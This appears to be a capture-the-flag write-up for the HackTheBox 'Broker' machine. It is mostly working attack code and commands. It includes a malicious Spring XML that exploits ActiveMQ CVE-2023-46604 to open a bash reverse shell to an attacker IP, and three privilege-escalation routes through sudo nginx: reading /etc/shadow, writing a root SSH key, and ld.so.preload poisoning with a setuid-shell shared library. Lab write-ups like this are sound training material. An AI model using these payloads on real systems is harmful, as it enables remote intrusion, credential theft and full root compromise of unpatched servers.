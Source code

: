 ## 📌 Box Info
- **OS**: [Linux](Linux)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
- **Created by:** TheCyberGeek
- **Notable CVEs:** 
  - CVE-2023-46604 (ActiveMQ RCE)
  - CVE-2022-41347 (Zimbra-like LD_PRELOAD abuse)

---

## 🔍 Recon

```bash
nmap -p- --min-rate 10000 10.10.11.243
```

```
nmap -p 22,80,1883,5672,8161,39751,61613,61614,61616 -sCV 10.10.11.243
```

- [80](HTTP): nginx, requires HTTP Basic Auth (`admin:admin`)
- 8161: Jetty webserver (ActiveMQ console)
- 61616: ActiveMQ 5.15.15 (vulnerable)
- MQTT, AMQP also running (ports 1883, 5672)

---

## 🐚 Shell as `activemq`

### 🧨 CVE-2023-46604 – ActiveMQ RCE

#### Step 1: Host malicious Spring XML

Edit `poc.xml`:

```xml
<?xml version="1.0" encoding="UTF-8" ?>
<beans xmlns="http://www.springframework.org/schema/beans"
       xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
       xsi:schemaLocation="http://www.springframework.org/schema/beans 
       http://www.springframework.org/schema/beans/spring-beans.xsd">
  <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
    <constructor-arg>
      <list>
        <value>bash</value>
        <value>-c</value>
        <value>bash -i &gt;&amp; /dev/tcp/10.10.14.6/9001 0&gt;&amp;1</value>
      </list>
    </constructor-arg>
  </bean>
</beans>
```

Host it:

```bash
python3 -m http.server
```

#### Step 2: Exploit

```bash
python3 exploit.py -i 10.10.11.243 -u http://10.10.14.6/poc.xml
```

#### Step 3: Catch Shell

```bash
nc -lnvp 9001
```

#### Upgrade Shell

```bash
script /dev/null -c bash
# [CTRL+Z]
stty raw -echo; fg
reset
export TERM=screen
```

---

## 🧑‍💻 Shell as Root

```bash
sudo -l
# (ALL) NOPASSWD: /usr/sbin/nginx
```

---

### 🧬 Method 1: File Read via Root nginx

`nginx.conf`:

```nginx
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}
```

Start nginx:

```bash
sudo /usr/sbin/nginx -c /dev/shm/nginx.conf
```

Read files:

```bash
curl localhost:1337/etc/shadow
curl localhost:1337/root/root.txt
```

---

### ✍️ Method 2: File Write via DAV PUT

Updated `nginx.conf`:

```nginx
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1338;
        root /;
        autoindex on;
        dav_methods PUT;
    }
}
```

Start server:

```bash
sudo /usr/sbin/nginx -c /dev/shm/nginx.conf
```

Write SSH key:

```bash
curl -X PUT localhost:1338/root/.ssh/authorized_keys \
    -d 'ssh-ed25519 AAAA... user@host'
```

SSH as root:

```bash
ssh -i id_ed25519 root@10.10.11.243
```

---

### ☠️ Method 3: LD_PRELOAD Poisoning

#### 1. Write `nginx.conf` with poisoned error_log

```nginx
user root;
error_log /etc/ld.so.preload warn;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1339;
        root /;
    }
}
```

```bash
sudo /usr/sbin/nginx -c /tmp/nginx.conf
curl localhost:1339/tmp/pwn.so
```

#### 2. Create malicious `.so`

```c
// pwn.c
#include <unistd.h>
#include <sys/types.h>
__attribute__ ((__constructor__))
void dropshell(void){
   chown("/tmp/rootshell", 0, 0);
   chmod("/tmp/rootshell", 04755);
   unlink("/etc/ld.so.preload");
}
```

```bash
gcc -fPIC -shared -o /tmp/pwn.so pwn.c -ldl
cp /bin/bash /tmp/rootshell
```

#### 3. Trigger Load

```bash
sudo -l
/tmp/rootshell -p
```

---

## 🏁 Flags

```bash
cat /home/activemq/user.txt
cat /root/root.txt
```